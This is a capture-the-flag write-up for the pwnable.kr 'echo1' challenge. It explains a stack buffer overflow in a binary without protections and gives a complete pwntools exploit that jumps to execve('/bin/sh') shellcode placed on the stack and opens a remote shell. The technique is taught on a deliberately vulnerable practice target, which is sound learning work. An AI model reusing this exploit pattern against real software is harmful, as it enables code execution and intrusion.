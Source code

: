 ```yaml
---
layout: page
title: pwnable.kr - echo1
category: pwnablekr
subcategory: rookiess
tags: [writeup, pwn, pwnablekr]
---
```



Checksec:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x400000)
RWX:      Has RWX segments
```

Running binary:
```
hey, what's your name? : test

- select echo type -
- 1. : BOF echo
- 2. : FSB echo
- 3. : UAF echo
- 4. : exit
> 1
hello test
some_input
some_input

goodbye test

- select echo type - ...
```

We give name and then there is menu with only first option working - Buffer OverFlow.

First 4-th bytes of the name lands at constant address `0x6020a0 <id>`.

The code of "BOF echo":
```c
__int64 echo1()
{
  char s[32]; // [rsp+0h] [rbp-20h]

  func_array->print_hello(func_array);
  get_input(s, 0x80);
  puts(s);
  func_array->print_goodbye(func_array, 0x80);
  return 0LL;
}
```

As there are no security contermeasures the challenge is straight-forward:

* as the name give an asm code that will jump to a shellcode (`jmp rsp`)
* in echo1 function overwrite RIP with `<id>` address (first bytes of the name - they are executable)
* `jmp rsp` will execute
* at RSP there will be input we gave in `get_input`
* so we give the shellcode there

Exploit code:
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

'''
~Gros
'''

from pwn import *
import re
import argparse
import subprocess
from binascii import *


BINARY_FILE = './echo1'
REMOTE = ('pwnable.kr', 9010)

def setup_connection():
    binary, libc, preload = None, None, False
    local_libc = '/lib/x86_64-linux-gnu/libc.so.6'
    task_libc = './libc.so.6'

    env = {}
    if args.PRELOAD:
        local_libc = task_libc
        env = {'LD_PRELOAD': task_libc}

    if args.BINARY:
        binary = ELF(BINARY_FILE)
        context.arch = binary.arch

    if args.REMOTE:
        if args.LIBC:
            libc = ELF(task_libc)
        s = remote(*REMOTE)
    else:
        if args.LIBC:
            libc = ELF(local_libc)
        
        s = process(BINARY_FILE, stderr=open('/dev/null', 'w+'), env=env)
        if args.GDB:
            context.terminal = ['gnome-terminal', '-e']
            breakpoints = [0x400871]
            gdb.attach(s, exe=BINARY_FILE, gdbscript='\n'.join(['b *'+str(x) for x in breakpoints]))
            
    return s, binary, libc


if __name__ == '__main__':
    s, binary, libc = setup_connection()

    context.update(arch = 'amd64')

    jump = asm('jmp rsp')

    payload = 'A'*40
    payload += p64(0x6020a0)  # saved rip - <id> address
    payload += asm('''xor rax,rax
                   push rax
                   mov rdi, 0x68732f2f6e69622f
                   push rdi
                   mov rdi, rsp
                   mov al, 0x3b
                   xor rsi, rsi
                   xor rdx, rdx
                   syscall'''
                )

    print(s.recvuntil("hey, what's your name? :"))
    s.sendline(jump)
    print(s.recvuntil('>'))

    s.sendline('1')
    print(s.recvuntil('hello ' + jump))

    s.sendline(payload)
    s.interactive()
```
